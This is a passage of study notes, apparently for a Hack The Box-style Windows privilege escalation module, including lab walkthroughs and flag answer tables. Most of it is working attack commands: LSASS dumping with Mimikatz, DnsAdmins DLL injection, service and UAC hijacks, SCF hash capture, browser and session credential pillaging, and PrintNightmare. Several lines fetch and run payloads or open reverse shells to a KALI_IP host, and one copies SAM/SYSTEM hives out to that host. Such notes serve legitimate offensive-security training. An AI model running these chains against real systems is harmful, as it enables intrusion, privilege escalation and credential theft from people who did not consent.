| Backup Operators (SeBackupPrivilege) | Read any file (registry hive dump, NTDS.dit) |
| Event Log Readers | Read Security log → plaintext creds in event 4688 |
| DnsAdmins | Load DLL in dns.exe (SYSTEM) |
| Print Operators (SeLoadDriverPrivilege) | Load arbitrary kernel drivers |
| Server Operators | Modify service binPath → command exec as LocalSystem |

#### 17.3.3.1. SeDebugPrivilege -- LSASS Memory Dump + Mimikatz

SeDebugPrivilege allows attaching to any process, including LSASS. Even when `whoami /priv` shows it as Disabled, tools like ProcDump can enable it at launch:

```cmd
:: Step 1: confirm privilege (Disabled is fine)
whoami /priv

:: Step 2: dump lsass.exe memory
cd C:\Tools\Procdump
procdump.exe -accepteula -ma lsass.exe lsass.dmp
:: Expected: "Dump 1 complete: 42 MB written"

:: Step 3: copy dump to Mimikatz dir and parse
copy lsass.dmp C:\Tools\Mimikatz\x64\
cd C:\Tools\Mimikatz\x64\
mimikatz.exe
```

Inside Mimikatz:

```
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
:: Output: * NTLM : <hash> for each cached session
```

> 🔁 **Similar to:** the Task Manager LSASS dump + pypykatz chain in [[16. Password Attacks#16.3.1.2. LSASS Dump via Task Manager + pypykatz|16.3.1.2]]. SeDebugPrivilege enables ProcDump; Task Manager requires no special privilege (but also needs elevated GUI access).

**Lab Q&A (WPE.5):**

| Q | Answer |
|---|---|
| sccm_svc NTLM hash | **64f12cddaa88057e06a81b54e73b949b** |

#### 17.3.3.2. SeTakeOwnershipPrivilege -- File Ownership Hijack

Allows taking ownership of any file regardless of ACL. Two-step process: take ownership, then grant read access:

```cmd
:: Step 1: enable the privilege (use a script if it shows Disabled)
cd C:\Tools
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1

:: Step 2: take ownership of the target file
takeown /f 'C:\TakeOwn\flag.txt'
:: SUCCESS: The file ... is now owned by "MACHINE\user"

:: Step 3: grant yourself Full Control (owning != reading)
icacls 'C:\TakeOwn\flag.txt' /grant htb-student:F
:: Successfully processed 1 files

:: Step 4: read it
cat 'C:\TakeOwn\flag.txt'
```

> 🔧 **Technique:** `takeown` gives ownership but NOT read access. You must follow with `icacls /grant :F` to add Full Control. Skipping step 3 gives "Access denied" even as owner. High-value targets: SAM, SYSTEM, SECURITY registry hives; any user's files; NTDS.dit on a DC.

**Lab Q&A (WPE.6):**

| Q | Answer |
|---|---|
| Flag via SeTakeOwnershipPrivilege | **1m_th3_f1l3_0wn3r_n0W!** |

#### 17.3.3.3. Event Log Readers -- Credential Harvest from Event ID 4688

Members of Event Log Readers can read Security logs. Process creation events (4688) log the full command line, including passwords passed as arguments:

```powershell
:: Confirm group membership
net localgroup "Event Log Readers"

:: Search Security log for credential-containing commands
wevtutil qe Security /rd:true /f:text | Select-String "/user"
:: Matches: "net use Z: \\server\share /user:mary W1ntergreen_gum_2021!"
:: Matches: "cmdkey /add:WEB01 /user:amanda /pass:Passw0rd!"
```

> 🔍 **Worth remembering generally:** `/rd:true` reads newest events first. The `/user` pattern catches `net use /user:`, `cmdkey /user:`, and `runas /user:` -- all commands where the password follows the username on the command line. This is Event ID 4688 with process command line auditing enabled (not the default but common in enterprise GPO configs).

**Lab Q&A (WPE.8):**

| Q | Answer |
|---|---|
| Plaintext password from event log | **W1ntergreen_gum_2021!** (mary) |

#### 17.3.3.4. DnsAdmins -- DLL Injection into dns.exe (SYSTEM)

DnsAdmins members can load a plugin DLL into `dns.exe` which runs as SYSTEM:

```bash
# Step 1 (Kali): craft the DLL payload
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

# Step 2 (Kali): serve the DLL
python3 -m http.server 7777
```

```cmd
:: Step 3 (target): download the DLL
wget "http://KALI_IP:7777/adduser.dll" -outfile "adduser.dll"

:: Step 4: register the DLL as the DNS server plugin
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\adduser.dll
:: Expected: Registry property serverlevelplugindll successfully reset.

:: Step 5: restart DNS service to trigger the DLL
sc stop dns
sc start dns
:: DNS may exit with code 1053 -- that's expected, the DLL ran anyway

:: Step 6: verify domain admin membership
net group "Domain Admins" /dom
:: netadm should now appear -- sign out and back in for token refresh

type C:\Users\Administrator\Desktop\DnsAdmins\flag.txt
```

> 🔍 **Worth remembering generally:** the DLL runs in `dns.exe`'s SYSTEM context. DNS may fail to restart properly (the malicious DLL exits uncleanly) but the payload executes. Always verify the side-effect (group membership, file creation) rather than trusting the service start return code.

**Lab Q&A (WPE.9):**

| Q | Answer |
|---|---|
| Flag via DnsAdmins DLL injection | **Dll_abus3_ftw!** |

#### 17.3.3.5. Print Operators -- SeLoadDriverPrivilege (EoPLoadDriver + Capcom.sys)

Print Operators get `SeLoadDriverPrivilege`, enabling arbitrary kernel driver loading:

```cmd
:: Requires an elevated CMD (UAC-prompted as the Print Operator user)
cd C:\Tools

:: Step 1: EoPLoadDriver enables privilege, creates registry key, loads driver
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
:: [+] Enabling SeLoadDriverPrivilege
:: [+] SeLoadDriverPrivilege Enabled
:: NTSTATUS: 00000000, WinError: 0

:: Step 2: ExploitCapcom uses the loaded driver for token stealing
cd \Tools\ExploitCapcom
ExploitCapcom.exe
:: [*] Capcom.sys exploit
:: [+] Token stealing was successful
:: [+] The SYSTEM shell was launched
:: A new CMD window opens as SYSTEM

type C:\Users\Administrator\Desktop\flag.txt
```

**Lab Q&A (WPE.10):**

| Q | Answer |
|---|---|
| Flag via SeLoadDriverPrivilege | **Pr1nt_0p3rat0rs_ftw!** |

#### 17.3.3.6. Server Operators -- Service binPath Hijack (LocalSystem Execution)

Server Operators can start/stop/reconfigure most services. Set a service's binary path to a command, start it, command runs as the service's configured account (often SYSTEM/LocalSystem):

```cmd
:: Step 1: confirm a target service runs as LocalSystem
sc qc AppReadiness
:: SERVICE_START_NAME : LocalSystem

:: Step 2: redirect binPath to your command
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
:: [SC] ChangeServiceConfig SUCCESS

:: Step 3: start the service (the cmd runs then fails exit-code-wise -- expected)
sc start AppReadiness
:: [SC] StartService FAILED 1053 -- expected, payload already ran

:: Step 4: verify the side-effect
net localgroup Administrators
:: server_adm now appears

:: Step 5: sign out, sign back in, then access the flag
type C:\Users\Administrator\Desktop\ServerOperators\flag.txt
```

> 🔧 **Technique:** exit code 1053 from `sc start` just means the service executable didn't initialize properly -- the payload (`cmd /c net localgroup...`) ran and completed before the OS decided the service was broken. This is the expected outcome. Always verify the intended side-effect, not the service return code.

**Lab Q&A (WPE.11):**

| Q | Answer |
|---|---|
| Flag via Server Operators | **S3rver_0perators_@ll_p0werfull!** |

#### Tags: #SeDebugPrivilege #SeTakeOwnershipPrivilege #SeLoadDriverPrivilege #DnsAdmins #PrintOperators #ServerOperators #EventLogReaders #BackupOperators #ProcDump #BuiltinGroups #Module17

---

### 17.3.4. UAC Bypass

UAC creates a filtered (reduced-privilege) token for admin users. Even local admins get a standard token until they approve UAC elevation. Bypasses auto-elevate without the prompt.

```powershell
:: Check UAC level
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
:: ConsentPromptBehaviorAdmin values:
:: 0 = no prompt (already fully elevated -- no bypass needed)
:: 2 = always prompt for credentials (highest, blocks most bypasses)
:: 5 = default (prompt for non-Windows binaries only -- most bypasses work here)
```

**Bypass-UAC.ps1 (UacMethodSysprep):**

`sysprep.exe` auto-elevates. It loads a DLL from a user-writable path. Drop a malicious DLL there and sysprep carries it to full admin:

```powershell
xcopy \\KALI_IP\share\Bypass-UAC.ps1 C:\Users\Public\
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -method UacMethodSysprep
:: A new elevated powershell opens as the full admin token
```

**fodhelper.exe (registry hijack):**

`fodhelper.exe` auto-elevates and reads from `HKCU:\Software\Classes\ms-settings\Shell\Open\command` before `HKLM`. Write a command there:

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd /c whoami > C:\Windows\Temp\bypass.txt" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
```

> 🔁 **Similar to:** `AlwaysInstallElevated` in the existing 17.3.2 section -- both are UAC-level bypasses that give a full admin token to an already-admin user. UAC bypass is about escaping the token filter; AIE is about the MSI installer granting SYSTEM regardless of token level.

**Lab Q&A (WPE.12):**

| Q | Answer |
|---|---|
| Flag after UAC bypass | **I_bypass3d_Uac!** |

#### Tags: #UAC #UACBypass #fodhelper #BypassUAC #sysprep #RegistryHijack #Module17

---

### 17.3.5. Vulnerable Third-Party Services

Third-party services often run as SYSTEM and may have unpatched local vulnerabilities.

#### 17.3.5.1. Druva inSync RCE (Port 6064, Localhost)

Druva inSync client service listens on `127.0.0.1:6064` and accepts commands without authentication from localhost. Reachable from any low-priv shell:

```powershell
:: Verify service is running
netstat -ano | findstr 6064
:: TCP 127.0.0.1:6064 LISTENING

get-process -Id <PID>
:: Shows: inSyncCPHwnet64

get-service | ? {$_.DisplayName -like 'Druva*'}
:: Status: Running
```

```bash
# On Kali: set up a PowerShell reverse shell script
# Download Invoke-PowerShellTcp.ps1, add at the bottom:
# Invoke-PowerShellTcp -Reverse -IPAddress KALI_IP -Port 9443

python3 -m http.server 8080
nc -nvlp 9443
```

```powershell
:: On target: edit Druva.ps1 with your KALI_IP, then run
.\Druva.ps1
:: Sends crafted message to port 6064, triggers download+exec of your PS script
```

Expected: `WINLPE-WS01$` SYSTEM shell in nc listener.

**Lab Q&A (WPE.15):**

| Q | Answer |
|---|---|
| Flag via Druva inSync RCE | **Aud1t_th0se_th1rd_paRty_s3rvices!** |

#### 17.3.5.2. SCF File Attack (Credential Capture from File Share Visitors)

An SCF (Shell Command File) with a UNC icon path causes Windows Explorer to fetch the icon when a user opens the containing folder, sending their NTLM hash to your Responder:

```bash
# Step 1 (Kali): start Responder
sudo responder -w -v -I tun0
```

```
Step 2 (target): create the SCF file in Notepad

Content:
  [Shell]
  Command=2
  IconFile=\\KALI_IP\share\legit.ico
  [Taskbar]
  Command=ToggleDesktop

Save as: @Inventory.scf  (@ prefix = sorts to top, loads first when folder opens)
Save to: C:\Department Shares\Public\IT\
```

```bash
# Responder captures:
# [SMB] NTLMv2 Username: MACHINE\sccm_svc
# [SMB] NTLMv2 Hash    : sccm_svc::MACHINE:<hash>

hashcat -a 0 -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
# Output: ...:Password1
```

> 🔍 **Worth remembering generally:** the SCF attack is fully passive once the file is planted. The `@` prefix guarantees it loads immediately (alphabetically first). No victim interaction beyond opening the folder in Explorer. The capture happens even if the UNC share doesn't exist.

**Lab Q&A (WPE.20):**

| Q | Answer |
|---|---|
| sccm_svc cleartext password | **Password1** |

#### Tags: #VulnerableServices #DruvaInSync #SCFAttack #NetNTLMv2 #Responder #Module17

---

### 17.3.6. Credential Theft and Pillaging

Automated multi-source credential extraction from a compromised host.

#### 17.3.6.1. LaZagne, SharpChrome, SessionGopher

```powershell
:: LaZagne -- multi-source credential dump (browsers, DB tools, WinSCP, Outlook, etc.)
cd C:\Tools
.\lazagne.exe all
:: Example output:
:: --- Dbvis passwords ---  sa / S3cret_db_p@ssw0rd!
:: --- Winscp passwords --- root / Summer2020!

:: SharpChrome -- decrypt Chrome AES-encrypted login database via DPAPI
.\SharpChrome.exe logins /unprotect
:: Output CSV: signon_realm, username, password
:: Example: https://vc.inlanefreight.local/,root,ILVCadm1n1qazZAQ!

:: SessionGopher -- dump saved sessions (PuTTY, WinSCP, SuperPuTTY, RDP, FileZilla)
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
:: Output: Source: WINLPE-SRV01\htb-student, Session: root@ftp.ilfreight.local, Password: Ftpuser!
```

> 🔍 **Worth remembering generally:** LaZagne requires running as the target user (needs DPAPI keys loaded in the user profile). SharpChrome decrypts Chrome's per-user AES key using DPAPI. SessionGopher reads registry keys that WinSCP/PuTTY write for saved sessions -- no DPAPI, just registry reads.

#### 17.3.6.2. mRemoteNG -- Decrypt Saved Session Passwords

mRemoteNG stores RDP/SSH credentials encrypted in `confCons.xml` with AES-GCM. Default encryption key is blank (empty master password):

```powershell
:: Locate the config file
cmd /c more "%USERPROFILE%\APPDATA\Roaming\mRemoteNG\confCons.xml"
:: Look for: Password="<base64-blob>"
```

```bash
# Decrypt on Kali:
wget https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py
python3 mremoteng_decrypt.py -s "<base64-blob>"
# Output: Password: Princess01!

# If a custom master password was set:
python3 mremoteng_decrypt.py -s "<base64-blob>" -p "<master-password>"
```

#### 17.3.6.3. Firefox Cookie Theft (Session Hijacking)

Steal session cookies to log in as a user without their password:

```cmd
:: On Windows: copy the cookies SQLite DB
copy C:\Users\Grace\AppData\Roaming\Mozilla\Firefox\Profiles\wu7k463d.default-release\cookies.sqlite \\KALI_IP\share
```

```bash
# On Kali: extract the session cookie value
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py
python3 cookieextractor.py --dbpath cookies.sqlite --host slacktestapp
# Output: ('d', 'VGhpcyBpcyBh...==', '.api.slacktestapp.com', '/', ...)
```

In the victim's browser (Firefox RDP session): Cookie-Editor extension → replace cookie `d` with the extracted value → save + refresh → logged in as the cookie owner.

#### 17.3.6.4. Restic Backup -- SAM/SYSTEM Extraction from Snapshots

Open-source backup snapshots may contain sensitive system files:

```powershell
:: List available backup snapshots
restic.exe -r E:\restic snapshots
:: Password: Superbackup!

:: Restore a snapshot containing C:\Windows\System32\config
restic.exe -r E:\restic restore b2f5caa0 --target C:\Users\jeff\Restore

:: Exfil the hives
copy C:\Users\jeff\Restore\C\Windows\System32\config\SAM \\KALI_IP\share\
copy C:\Users\jeff\Restore\C\Windows\System32\config\SYSTEM \\KALI_IP\share\
```

```bash
# Dump hashes offline
impacket-secretsdump -sam SAM -system SYSTEM local
# Output: Administrator:500:...:BAC9DC5B7B4BEC1D83E0E9C04B477F26:::
```

#### 17.3.6.5. Miscellaneous Credential Sources

```powershell
:: Get-LocalUser Description field (admins sometimes store creds here)
Get-LocalUser
:: Check Description column -- "Network scanner, do not change: !QAZXSW@3edc"

:: Windows Credential Manager saved sessions
cmdkey /list
:: mstsc.exe auto-populates credentials from here when connecting to listed hosts
```

**Lab Q&A (WPE.18-22):**

| Q | Answer |
|---|---|
| sa password from DbVisualizer (LaZagne) | **S3cret_db_p@ssw0rd!** |
| User auto-populated in mstsc for WEB01 | **amanda** |
| vCenter root password (SharpChrome) | **ILVCadm1n1qazZAQ!** |
| FTP password (SessionGopher) | **Ftpuser!** |
| mRemoteNG application name | **mRemoteNG** |
| Grace's password (mRemoteNG) | **Princess01!** |
| Flag from cookie theft | **HTB{Stealing_Cookies_To_AccessWebSites}** |
| Restic backup password | **Superbackup!** |
| Administrator NTLM from Restic SAM | **BAC9DC5B7B4BEC1D83E0E9C04B477F26** |
| secsvc password (Get-LocalUser Description) | **!QAZXSW@3edc** |

#### Tags: #LaZagne #SharpChrome #SessionGopher #mRemoteNG #Restic #FirefoxCookies #CookieTheft #Pillaging #CredentialTheft #cmdkey #Module17

---

### 17.3.7. Citrix Breakout

Citrix/VDI environments restrict users to a predefined application set. The goal is escaping to a full Windows shell.

#### 17.3.7.1. Paint Open Dialog UNC Navigation

```
1. Open Paint from within the Citrix session
2. File → Open
3. In the filename field, type: \\127.0.0.1\c$\users\pmorgan
4. Set "Files of type" to All Files
5. Click Open -- browses the admin share even in restricted Citrix
6. Navigate to Downloads\flag.txt → right-click → Open with Notepad
```

The Open dialog has unrestricted UNC path navigation even when the Citrix policy blocks direct shell access.

#### 17.3.7.2. Citrix Admin Escalation (PowerUp MSI + UAC bypass)

```powershell
:: Upgrade to full PowerShell
powershell -ep bypass
cd c:\users\public

:: Transfer tools from your Kali SMB share
xcopy \\KALI_IP\share\PowerUp.ps1 .
xcopy \\KALI_IP\share\Bypass-UAC.ps1 .

:: Create a backdoor local admin via MSI
Import-Module .\PowerUp.ps1
Write-UserAddMSI
:: Creates UserAdd.msi in current directory

:: Run it -- creates backdoor:T3st@123 user
.\userAdd.msi

:: Spawn elevated cmd as backdoor user, then UAC bypass
runas /user:backdoor cmd
powershell -ep bypass
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -method UacMethodSysprep
:: New elevated powershell opens as SYSTEM

type C:\Users\Administrator\Desktop\flag.txt
```

**Lab Q&A (WPE.19):**

| Q | Answer |
|---|---|
| Flag (Citrix user escape) | **CitR1X_Us3R_Esc@p3** |
| Flag (Citrix admin escalation) | **C1tr!x_3sC@p3_@dm!n** |

#### Tags: #CitrixBreakout #VDI #RestrictedDesktop #UNCNavigation #PowerUp #Module17

---

### 17.3.8. Skills Assessment Walkthroughs

#### 17.3.8.1. Skills Assessment Part I (PrintNightmare chain)



```bash
# Initial access: smb_delivery meterpreter
sudo msfconsole -q
use exploit/windows/smb/smb_delivery
set SRVHOST tun0; set LHOST tun0; exploit
# Inject via the web app: 127.0.0.1 && rundll32.exe \\KALI_IP\xYBi\test.dll,0

# PrintNightmare: clone PoC, append auto-invoke call
git clone https://github.com/calebstewart/CVE-2021-1675.git
echo 'Invoke-Nightmare -NewUser "Hacker" -NewPassword "Pwnd1234!" -DriverName "Printyboi"' >> CVE-2021-1675.ps1
python3 -m http.server 8080
# Inject via web app: 127.0.0.1 | powershell IEX(New-Object Net.Webclient).downloadString('http://KALI:8080/CVE-2021-1675.ps1')

# RDP in as Hacker, run LaZagne
xfreerdp /v:TARGET_IP /u:Hacker /p:'Pwnd1234!'
.\lazagne.exe all
# Finds: ldapadmin / car3ful_st0rinG_cr3d$ (Apache Directory Studio)
```

**Lab Q&A (WPE.25):**

| Q | Answer |
|---|---|
| Installed KBs | **3199986&3200970** |
| ldapadmin password (LaZagne) | **car3ful_st0rinG_cr3d$** |
| flag.txt on Admin Desktop | **Ev3ry_sysadm1ns_n1ghtMare!** |
| confidential.txt in Music | **5e5a7dafa79d923de3340e146318c31a** |

#### 17.3.8.2. Skills Assessment Part II (AlwaysInstallElevated + PwDump8)



```cmd
:: Q1: find credential in unattend.xml
cd C:\
findstr /spin "iamtheadministrator" *.*
cd C:\Windows\Panther
type unattend.xml
:: <Value>Inl@n3fr3ight_sup3rAdm1n!</Value>
```

```cmd
:: Q2: verify AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
:: Both must be 0x1
```

```bash
# Generate MSI reverse shell
msfvenom -p windows/shell_reverse_tcp lhost=KALI_IP lport=9443 -f msi > aie.msi
python3 -m http.server; nc -nvlp 9443
```

```powershell
:: On target: download and execute
curl http://KALI_IP:8000/aie.msi -o "C:\Users\htb-student\Desktop\aie.msi"
msiexec /i aie.msi /quiet /qn /norestart
:: SYSTEM reverse shell received
```

```cmd
:: Q3: from the SYSTEM shell, run PwDump8
curl http://KALI_IP:8000/pwdump8.exe -o "C:\Users\htb-student\Desktop\pwdump8.exe"
C:\Users\htb-student\Desktop\pwdump8.exe
:: wksadmin:1003:...:5835048CE94AD0564E29A924A03510EF
```

```bash
# Crack on Kali
hashcat -m 1000 5835048CE94AD0564E29A924A03510EF /usr/share/wordlists/rockyou.txt
# 5835048ce94ad0564e29a924a03510ef:password1
```

**Lab Q&A (WPE.26):**

| Q | Answer |
|---|---|
| unattend.xml admin password | **Inl@n3fr3ight_sup3rAdm1n!** |
| Flag after AlwaysInstallElevated SYSTEM | **el3vatEd_1nstall$_v3ry_r1sky** |
| wksadmin cracked password | **password1** |

#### Tags: #SkillsAssessment #PrintNightmare #CVE20211675 #AlwaysInstallElevated #PwDump8 #Meterpreter #smbdelivery #Module17

---

## 17.4. Wrapping Up

The Windows privesc methodology, in order:



> 🔍 **Worth remembering generally:** privileged access on every machine is rarely the realistic goal of a real pentest. Some machines aren't rootable, and that's fine. The goal is to identify where privileged access leads to further compromise of the infrastructure, not to get SYSTEM on everything at any cost.

> 🔁 **Similar to:** the manual enumeration → automated tool → manual follow-up loop here mirrors the methodology in [[07. Vulnerability Scanning#7.1. A Practical Approach to Vulnerability Scanning|Vulnerability Scanning]] -- tools give you the fast sweep, manual work catches what tools miss.

> 🎬 **[ippsec.rocks: "windows privilege escalation"](https://ippsec.rocks/?#windows%20privilege%20escalation)** -- search "service binary" for hijacking walkthroughs; "unquoted" for path exploits; "scheduled task" for task-based privesc
> 🎬 **[ippsec.rocks: "winpeas"](https://ippsec.rocks/?#winpeas)** -- boxes where winPEAS identifies the vector

> 🔗 **PayloadsAllTheThings -- Windows Privilege Escalation (GitHub):** [github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
> 🔗 **HackTricks -- Windows Local Privilege Escalation (GitHub):** [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks) -- search "windows local privilege escalation"
> 🔗 **LOLBAS Project** -- Windows binaries that can be abused for download, execute, bypass: [lolbas-project.github.io](https://lolbas-project.github.io)
> 🔗 **SigmaPotato GitHub:** [github.com/tylerdotrar/SigmaPotato](https://github.com/tylerdotrar/SigmaPotato)
> 🔗 **winPEAS releases (GitHub):** [github.com/carlospolop/PEASS-ng/releases](https://github.com/carlospolop/PEASS-ng/releases)

#### Tags: #WindowsPrivesc #PrivilegeEscalation #Methodology #Module17

---

## 🎯 Related Boxes to Practice

**Technique-genuine boxes (core privesc techniques from this module):**
- **HTB Devel** -- IIS file upload → SeImpersonatePrivilege / JuicyPotato path; Windows 7 32-bit, good for NTFS privesc basics
- **HTB Granny / Grandpa** -- IIS WebDAV upload → kernel exploit route (MS14-070, MS09-050); classic Windows kernel privesc
- **HTB Optimum** -- HFS exploit foothold → Windows Server 2012 kernel exploit (MS16-098 / Sherlock); kernel privesc workflow exactly as this module describes (systeminfo → find missing patch → exploit)
- **HTB Jeeves** -- JuicyPotato via SeImpersonatePrivilege after Jetty web shell; canonical Potato example from the OSCP prep list
- **HTB Arctic** -- ColdFusion file upload → JuicyPotato (SeImpersonatePrivilege); same Potato chain, different initial foothold
- **HTB Bastard** -- Drupal RCE → Windows Server 2008 kernel exploit route (MS15-051); good kernel privesc repetition
- **HTB SecNotes** -- SMB credential leak → administrator access; service/credential enumeration workflow

**Adjacent-workflow boxes (enumeration and credential patterns from 17.1):**
- **HTB Bastion** -- SMB share enumeration → SAM/SYSTEM extraction from backup → credential reuse (exactly the "hidden in plain view" pattern)
- **HTB Blue** -- EternalBlue on Windows 7; if you want to see what an unpatched system looks like without any privesc needed
- **HTB Bounty** -- IIS upload bypass → SeImpersonatePrivilege; upload + privesc combination

**Search guidance:**
- `ippsec.rocks` -- search "unquoted service path" for walkthroughs; "dll hijacking windows" for DLL technique; "schtasks privilege escalation" for scheduled task examples
- Offsec PG Practice (OSCP Discord / community lists) -- filter for Windows boxes tagged "service binary" or "privesc"
- TJNull's OSCP prep list -- the Windows section covers most of the techniques in this module

#### Tags: #RelatedBoxes #HTBDevel #HTBJeeves #HTBArctic #HTBOptimum #HTBBastion #HTBFuse #HTBForest #HTBQuerier #Module17

---

## 17.5. File Transfers (Windows)

Reference: the Offsec modules scatter file transfer one-liners throughout their labs. This section consolidates all Windows methods.

### 17.5.1. Serving Files from Kali

```bash
# Python HTTP server (most common -- one command, no install)
cd /directory/containing/file
python3 -m http.server 80          # port 80 (needs sudo)
python3 -m http.server 8080        # non-root alternative

# Verify file is accessible before pointing the target at it
curl -I http://127.0.0.1:8080/file.exe
```

> 🔧 **Technique:** always `cd` to the directory with the file first -- Python's http.server serves from CWD only. If port 80 requires root, use 8080 and adjust all download commands accordingly.

### 17.5.2. Windows Download Methods

```powershell
# iwr (Invoke-WebRequest) -- most common
iwr http://KALI_IP/file.exe -OutFile file.exe
wget http://KALI_IP/file.txt -OutFile flag.txt   # wget = alias for iwr in PowerShell

# WebClient.DownloadFile -- saves to disk
